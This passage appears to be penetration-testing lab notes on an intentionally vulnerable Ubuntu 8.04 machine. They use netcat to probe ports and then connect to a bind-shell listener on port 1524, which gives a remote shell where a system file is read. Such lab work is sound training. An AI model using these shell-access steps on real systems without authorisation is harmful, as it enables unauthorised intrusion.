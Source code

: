 - Check the ports without service banner

```bash
nc -nv 10.2.20.205 512
nc -nv 10.2.20.205 513
# No banners
```

```bash
nc -nv 10.2.20.205 1524

# provides with a shell on the target system!
cat /etc/*release
    DISTRIB_DESCRIPTION="Ubuntu 8.04"
```

📌 There is a BIND SHELL Listener on the port `1524`

![nc -nc 10.2.20.205 1524](assets/image-20230424142033017.png)

- Access the web server with a browser
  - `http://10.2.20.205/`
  - There are intentional vulnerable applications present

![](assets/image-20230424142428234.png)
